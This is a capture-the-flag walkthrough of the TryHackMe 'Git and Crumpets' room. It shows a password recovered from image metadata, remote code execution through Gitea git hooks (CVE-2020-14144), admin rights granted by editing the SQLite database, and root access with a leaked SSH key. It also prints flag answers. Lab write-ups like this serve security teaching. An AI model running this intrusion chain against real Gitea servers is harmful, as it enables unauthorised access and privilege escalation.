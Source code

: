 # Git and Crumpets 


- Room link:  
  https://tryhackme.com/room/gitandcrumpets
  
![image](https://user-images.githubusercontent.com/5285547/124516978-c903a380-ddda-11eb-9889-003881db1c7b.png)


## Nmap 

Let's see what we are working with here. 

```
Nmap scan report for git.git-and-crumpets.thm (10.10.255.148)
Host is up (0.022s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
9090/tcp closed zeus-admin
```
I see ```git.git-and-crumpets.thm``` and ```git-and-crumpets.thm``` in the nmap output.  
Let's add them to our ```/etc/hosts``` file

```
sudo nano /etc/hosts
```

## Port 80

Visiting the main website page, instantly redirects us to a Rick Astley video (we do love our Rick).
After having added the new hosts to the host file, I can now see the real page... 

![image](https://user-images.githubusercontent.com/5285547/124517211-55ae6180-dddb-11eb-8d35-0cb559d7a423.png)

Let's make an account and have a look around the system.  
After making the new account login. When you get there you will notice a few repos in ```Explore``` tab. 

![image](https://user-images.githubusercontent.com/5285547/124517322-9c9c5700-dddb-11eb-9f7c-4eb5f1302aed.png)

Checking the repo and its commits, we can see 5 changes. Let's review them. 

![image](https://user-images.githubusercontent.com/5285547/124517368-b50c7180-dddb-11eb-8987-c4513be276d0.png)

Now knowing the users password is in the image, lets get it. 

```
curl http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d -s | strings -n 8 | head
```
Result
```
8tEXtDescription
My 'Password' should be easy enough to guess
E7V:W*555}
```
Next we need to find his email, luckily its on the main profile for the user. 

![image](https://user-images.githubusercontent.com/5285547/124517524-13395480-dddc-11eb-8dc6-e45bb81effd2.png)

## User

Lets login as the new user, then check if he has nay higher privileges. 

![image](https://user-images.githubusercontent.com/5285547/124517654-66aba280-dddc-11eb-8537-2747bfff88f3.png)

Yes, Githooks are available. This will allow use to execute code on a successful change to the repo.

More info here: https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/

Edit the page above with a bash shell to your machine. 

![image](https://user-images.githubusercontent.com/5285547/124517772-bbe7b400-dddc-11eb-95fc-148134506ffe.png)

Then update the hook script to save it.
Now edit the readme.md file with any change to get our hook to fire and get a shell. 

![image](https://user-images.githubusercontent.com/5285547/124518309-fef65700-dddd-11eb-9e90-3fcd32af987f.png)

We can grab the flag in the home folder. (/home/git)  
Its abse64 encoded, so decode it. If you forget ...

```
#thm{fd7ab9ffd409064f257cd70cf3d6aa16}
echo dGhte2ZYzZDZhYTE2fQ=|base64 -d 
```

## Root

Let's now look around the system for any gitea related files (database, config etc)

```
find / -type f 2>/dev/null | grep "gitea" | grep "db"
```
```
/var/lib/gitea/data/gitea.db      << Looks like what we need!! 

/var/lib/gitea/data/gitea-repositories/root/backup.git/objects/05/2db66e7afb93b756a8fd79b1d794299e40a684
/var/lib/gitea/data/gitea-repositories/scones/cant-touch-this.git/objects/7a/8cad890480058860f42788db193afa38182cb6
/var/lib/gitea/data/queues/push_update/000002.ldb
/var/lib/gitea/data/queues/notification-service/000002.ldb
/var/lib/gitea/data/queues/repo_stats_update/000002.ldb
/var/lib/gitea/data/queues/pr_patch_checker/000002.ldb
```
Now change to the directory. Running ```file /var/lib/gitea/data/gitea.db```  
Shows us this is a SQlite3 database. 

![image](https://user-images.githubusercontent.com/5285547/124519198-82b14300-dde0-11eb-839b-2be44023705f.png)

```
sqlite3 gitea.db
```

- SQlite3 Basic Cheatsheet

```
sqlite> .database              #List database
slqite> .tables                #List tables
sqlite> .scheme user           #List schema of the table users
sqlite> .mode column           #Set mode to column
sqlite> .mode tab
sqlite> .mode line             #Set mode to line   - my preffered here. 
sqlite> .width 10 25 3 6 15    #Set width of column
sqlite> .show                  #Show column settings
```

After listing the tables and seeing a user table, lets get the data to some passwords hopefully. 
Trying the crack the passwords was taking a really long time, so I opted to edit the user we had access to. 
Giving him admin access via the sqlite database. 

```
UPDATE user SET is_admin=1 WHERE id=3;
```

Going back to the application we now see a new repo. 

![image](https://user-images.githubusercontent.com/5285547/124520096-47fcda00-dde3-11eb-95e8-07978deb579b.png)

Looking at the brances, we can see a new file ```dotfiles```

![image](https://user-images.githubusercontent.com/5285547/124520136-6fec3d80-dde3-11eb-9334-a483faa55567.png)

With old commits, one in particular looks very interesting. 

![image](https://user-images.githubusercontent.com/5285547/124520169-87c3c180-dde3-11eb-8c29-898af75e9768.png)

An ssh key!!

![image](https://user-images.githubusercontent.com/5285547/124520205-a1fd9f80-dde3-11eb-9870-887b41eec23e.png)

Copying the contents to a new file and making it executable. Then using the "password" from the file name. 
We can now access SSH and get the last flag. 

```
nano id_rsa   #copy contents in
chmod 600 id_rsa
ssh root@git-and-crumpets -i id_rsa
```

![image](https://user-images.githubusercontent.com/5285547/124520332-133d5280-dde4-11eb-9faa-8a83df540199.png)

Now we got the last flag and owned the box! 



